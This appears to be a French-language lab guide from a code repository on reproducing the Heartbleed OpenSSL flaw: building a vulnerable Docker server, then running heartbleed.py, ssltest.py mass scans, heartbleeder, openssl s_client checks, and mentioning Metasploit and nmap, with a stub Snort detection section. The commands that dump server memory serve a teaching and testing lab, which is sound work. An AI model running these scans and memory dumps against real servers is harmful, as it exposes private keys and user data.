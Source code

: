 #### Récapitulatif exploiter la faille/ tester la vulnérabilité

- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed
- script
    - ssltest.py
    - heartbleed.py
    - [fox](http://blog.fox-it.com/wp-content/uploads/2014/04/fox_heartbleedtest.zip)
    - [pacemaker.py](https://github.com/Lekensteyn/pacemaker)
- tester via openssl_client 
- tester avec un ids/idps
-  heartbleeder *paquetage linux*



##### prérequis 
- outils :
    - Attaquant
        - git 
        - docker:
            - docker-ce
            - docker-compose
        - docker
    - Pentester :
        - Quasiment tout les fichiers sauf heartbleeder
            - git    
        - stimulate-server.py -- heartbleed.py -- ssltest.py
            - python:
                - python1-2
                - python3
        - Linux Debian distributions
            - heartbleeder
    - Détecteur :
        - snort

#### Mise en place via les scripts :
- Un serveur sera le serveur vulnérable 
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-server.sh
- Un client sera le client lambda ou pentester *test de sécurité*
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-pentest.sh
-  On configure les hostslist et les adresses IP sur les serveurs ou en les récupérant 
> [!NOTE]
> $ip correspond à l'adresse IP du serveur vulnérable si le serveur

##### Mise en place du serveur vulnérable :
-  Installation de Docker
`chmod +x && ./install-docker.sh  && sudo apt-get install -y docker-compose`

- Installation du serveur vulnérable avec un docker-compose.yml
```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git

cd heartbleed-example
sudo docker-compose up
```

> [!NOTE]
> A readme file is in : ./markdown/heartbleed-example/README.md
> The project is delivered with :
> Un docker-compose pour lancer le serveur vulnérable
> Un programme pour injecter de la donnée : `stimulate_server.py`
> Un script pour exploiter : `heartbleed.py` : dump le contenu du serveur et teste si le serveur est vulnérable (outil principal)


### Mise en place du serveur pentest :

#### Injecter de la donnée / stimuler le serveur cible

```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git
cd heartbleed-example


chmod +x stimulate_server.py
python stimulate_server.py -a $ip
```


#### Pentest :
- Voici les principales étapes : lors de l'installation des outils :
    - Tester avec un outil de pentest :
        - install git
        - clone and cp repo
        - config hostlist
        - test

-  HEARTBLEED : *Dump la RAM*
    - script heartbleed.py
    
    ```bash
        sudo apt-get update -y && sudo apt-get install -y python
        git clone https://github.com/injcristianrojas/heartbleed-example.git
        cd heartbleed-example


        chmod +x heartbleed.py
        python heartbleed.py $ip -p 443
        python heartbleed.py $ip -p 443 -v -n 50
    ```


- Paquetage linux heartbleeder : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y heartbleeder && sudo apt-get autoremove -y
heartbleeder $ip:443
```


-  Usage du script ssltest.py : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y python
sudo apt-get update -y && sudo apt-get install -y git 
git clone https://github.com/tdussa/heartbleed-masstest.git
cd heartbleed-masstest
nano hostlist.txt && chmod +x ssltest.py
./ssltest.py --ports "443, 993, 995, 44330" hostlist.txt
```

- tester via openssl_client *Check and dump*

```bash
openssl s_client -connect $ip:44330 -tlsextdebug | grep "TLS server extension"
```


- mais au préalable
    - mise en place du serveur vulnérable depuis le serveur docker ou un autre serveur
    ```bash
    openssl s_server -key /etc/ssl/private/apache-selfsigned.key -cert /etc/ssl/certs/apache-selfsigned.crt -accept 44330 -www
    ```


#### attaque :
- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed





==============================================================================================
### mise en place du serveur vulnérable sur Windows
- En cas de problème de ports :
    ```powershell
    netstat -aon | find ":443"
    tasklist /SVC /FI "PID eq 15524"
    ```
    
   *tuer le processus ex: VMWARE*


======================
#####  Mise en place de snort
<!-- - launch sol2
    - Select Save from the bar on top and close the file. At this point, Snort is ready to run.   
    Except, it doesn’t have any rules loaded. To verify, run the following command:    
    `sudo snort -T -i eth0 -c /etc/snort/snort.conf`
    - Now, let’s start Snort in IDS mode and tell it to display alerts to the console:
    `sudo snort -A console -q -c /etc/snort/snort.conf -i eth0` -->